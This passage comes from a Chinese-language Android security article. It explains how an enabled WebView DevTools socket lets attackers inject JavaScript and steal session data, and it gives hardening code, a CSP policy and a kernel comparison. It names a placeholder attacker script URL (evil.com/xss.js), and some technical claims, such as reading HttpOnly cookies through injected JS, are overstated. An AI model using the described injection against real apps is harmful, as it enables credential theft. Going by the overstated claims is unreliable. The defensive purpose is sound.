### 3.4 WebView DevTools 调试安全隐患与加固

在日常开发阶段，为了方便调试前端网页，开发者常常需要启用 WebView 的远程调试模式，通过在 PC 端的 Chrome 浏览器中访问 `chrome://inspect` 来查看网页 DOM、注入控制台 JS、设置断点等。

##### 4.1 调试开启的安全风险底层原理
启用 WebView 的远程调试，是通过以下代码实现的：
```kotlin
// 危险配置：在全局开启 WebView 的远程调试
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    WebView.setWebContentsDebuggingEnabled(true)
}
```

在系统底层，当 `setWebContentsDebuggingEnabled(true)` 被调用时，Chromium 网络层会开启一个本地的 **Abstract UNIX Domain Socket（抽象套接字）**。这个套接字的名称通常遵循 `@webview_devtools_remote_<pid>` 的命名规范（其中 `<pid>` 为当前应用的进程 ID）。

因为抽象套接字（Abstract Socket）不需要文件系统的物理路径权限，任何在相同 Linux 用户组或者具备一定系统特权（如拥有 Shell 权限的开发人员、通过 USB 连接电脑的 adb 守护进程，或者是设备上被授予了特定网络通信权限的恶意 App）的程序，都可以直接通过 Binder 或 Socket 连接访问该套接字。

连接建立后，外部程序能够直接利用 **Chrome DevTools Protocol (CDP)** 与 WebView 进行双向通信。这带来了极大的安全隐患：
*   **任意代码注入（Remote Code Execution）**：攻击者可以直接通过 Chrome DevTools 发送 `Runtime.evaluate` 指令，在 WebView 加载的网页中注入并运行任意 JavaScript 代码。
*   **敏感凭证读取**：由于可以执行 JS 脚本，攻击者能够读取并外传当前页面存储的所有 LocalStorage 数据、会话 Session、受 `HttpOnly` 限制的敏感 Cookie，甚至能调用已经通过 `addJavascriptInterface` 注入的所有 Native 特权接口。
*   **跨进程命令执行**：如果 WebView 注入了敏感的 JSBridge 接口，攻击者便能通过 DevTools 注入的 JS 调用这些接口，以当前 App 的 UID 权限执行 Native 命令，进而彻底穿透沙箱。

##### 4.2 严密的安全加固方案
为了防止因为调试开关遗留到线上发布版本而导致的巨大安全漏洞，应采取以下多层级加固方案：

1. **绝对禁止在非 Debug 构建版本中启用调试**：
   必须严格绑定 `BuildConfig.DEBUG`。如果项目采用混淆，应确保 `BuildConfig` 类不被攻击者篡改。
   ```kotlin
   if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
       // 仅在 Debug 模式下启用远程调试，杜绝 Release 泄露
       WebView.setWebContentsDebuggingEnabled(BuildConfig.DEBUG)
   }
   ```

2. **基于 ApplicationInfo.FLAG_DEBUGGABLE 动态判断**：
   为了防范某些通过反编译工具修改 `BuildConfig.class` 常量注入的攻击，可以进一步利用系统的 `ApplicationInfo` 属性进行动态双重校验。因为系统在安装 APK 时，如果检测到 release 签名且没有开启 `android:debuggable="true"`，内核会强行剔除 DEBUG 属性：
   ```kotlin
   val isDebuggable = (context.applicationInfo.flags and ApplicationInfo.FLAG_DEBUGGABLE) != 0
   if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
       WebView.setWebContentsDebuggingEnabled(isDebuggable)
   }
   ```

3. **借助 ProGuard 混淆强行剥离调试代码**：
   在打包发布版本时，可以通过 ProGuard 的 `assumenosideeffects` 规则，将带有 `setWebContentsDebuggingEnabled` 的调用在编译期的字节码层面直接物理剔除，确保发布包中根本不存在这行指令：
   ```proguard
   # proguard-rules.pro 中配置
   -assumenosideeffects class android.webkit.WebView {
       public static void setWebContentsDebuggingEnabled(boolean);
   }
   ```

### 3.5 响应头中的安全防护：Content Security Policy（CSP）

WebView 本身也是符合 Web 规范的标准浏览器容器，因此完全支持**内容安全策略（Content Security Policy, CSP）**。CSP 是一种由服务端通过 HTTP 响应头（或 HTML meta 标签）下发的安全策略，用于声明该网页能够加载和执行哪些外部资源。

#### CSP 的应用实践

通过配置 CSP，即使 H5 页面中存在跨站脚本（XSS）漏洞，攻击者成功植入了恶意的反射 JS 标签，浏览器引擎也会因为该 JS 的源不符合 CSP 规则而拒绝执行它，从而构筑了第二道安全防线。

在下发的 HTML 响应头中加入如下配置：

```http
Content-Security-Policy: default-src 'self' *.mycompany.com; script-src 'self' 'unsafe-inline' https://cdn.mycompany.com; object-src 'none';
```

##### 规则解析
*   `default-src 'self' *.mycompany.com`：默认只允许加载同源（当前域名）以及 `mycompany.com` 子域名的资源（图片、字体等）。
*   `script-src 'self' 'unsafe-inline' https://cdn.mycompany.com`：限制只有当前域和 `cdn.mycompany.com` 下的脚本才能被执行，且允许部分必要的内联脚本（`'unsafe-inline'`）。攻击者从 `http://evil.com/xss.js` 注入的脚本会被引擎拦截。
*   `object-src 'none'`：彻底禁用 `<object>`、`<embed>`、`<applet>` 标签，防范 Flash 等历史安全漏洞。

##### 混合容器下的安全态势感知（APM 上报）
许多情况下，业务方可能由于升级了某些资源，意外违反了 CSP 策略，从而导致 H5 业务不可用。为了做到既防护安全又能监控故障，可以在 CSP 配置中加入 `report-uri` 或使用 `Content-Security-Policy-Report-Only` 头：

```http
Content-Security-Policy-Report-Only: default-src 'self'; report-uri https://api.mycompany.com/csp-report;
```

当 WebView 内检测到违规脚本尝试运行（如 XSS 注入）时，引擎并不会强行拦截它（Report-Only 模式），而是会将一份包含违规 URL、被拦截资源源（Blocked URI）以及发生漏洞的代码文件信息的 JSON 数据自动发送给 `report-uri` 指定的服务端接口。客户端开发团队通过监控这个 APM 接口，即可全面监控并感知 H5 代码中隐藏的 XSS 攻击动态。

### 3.6 客户端内核集成与升级维护最佳实践

面对极其严重的 Android 系统 WebView 碎片化，许多大型互联网企业（如腾讯、阿里巴巴、百度）为了彻底避开系统自带 WebView 的历史安全漏洞与兼容性大坑，会采用**自装载内核**的方案。

#### 第三方内核与系统 WebView 对比分析

| 评估维度 | 系统默认 WebView | 自装载第三方内核 (如 GeckoView / 腾讯 TBS) |
| :--- | :--- | :--- |
| **漏洞补丁升级时效** | 严重受制于设备系统版本和 Google Play 可用性。在国内安卓生态中，大量低版本旧系统设备终身无法升级，已知安全漏洞长期暴露。 | **极高**。由于内核包作为独立 Assets 动态随 App 或者是热更新框架下发，不受设备系统版本制约。安全团队一旦发现 V8 新漏洞，可以在数小时内完成补丁合并并对全网客户端强行下发热补丁更新。 |
| **安装包体积（APK Size）** | 无任何开销，直接复用系统自带的 Chromium 驱动程序。 | 增加 30MB - 50MB 左右的包大小（由于需要内置完整的 Blink 与 V8 动态链接库）。 |
| **控制力度与定制性** | 受到 Google 原生 API 的限制。很多底层的 Socket 行为、TLS 握手细节以及 V8 垃圾回收机制无法被应用层干涉。 | **极高**。可以实现深度的底层网络请求拦截与自研渲染缓存，甚至能直接阻断反射等攻击特征。 |

对于金融、证券、支付以及拥有海量 H5 复杂混合业务的行业领头 App 而言，为了杜绝零日漏洞（Zero-Day Vulnerability）造成的资产泄露，**集成诸如 GeckoView 或自研 Chromium 内核并实现内核热更新**，是解决 WebView 碎片化安全隐患的根本保障。

---

## 4. 总结

Android WebView 的安全性构建不是一朝一夕之功，它是一项涉及 **系统默认安全性演进、应用层 API 严密配置、前端网络协议校验、以及底层多进程沙箱隔离** 的系统性工程。

对于现代混合容器的架构设计，安全治理应遵循“**最小特权**”原则：
*   **物理链路隔离**：坚决弃用 `file://` 协议，全面倒向 `WebViewAssetLoader` 的 HTTPS 虚拟域名方案；
*   **方法可见限制**：严格标注 `@JavascriptInterface` 注解，利用 JS-Prompt 做低版本防御；
*   **信任源拦截**：在 `shouldOverrideUrlLoading` 中使用标准 `Uri` 库防范域名欺骗与端口混淆；
*   **系统层协同**：积极启用网络安全配置（Network Security Config）、证书固定、多进程沙箱和 Safe Browsing。

通过将安全规范融入混合容器的底层基座，方能在享受动态化业务红利的同时，为应用数据和系统沙箱提供坚不可摧的安全防御体系。
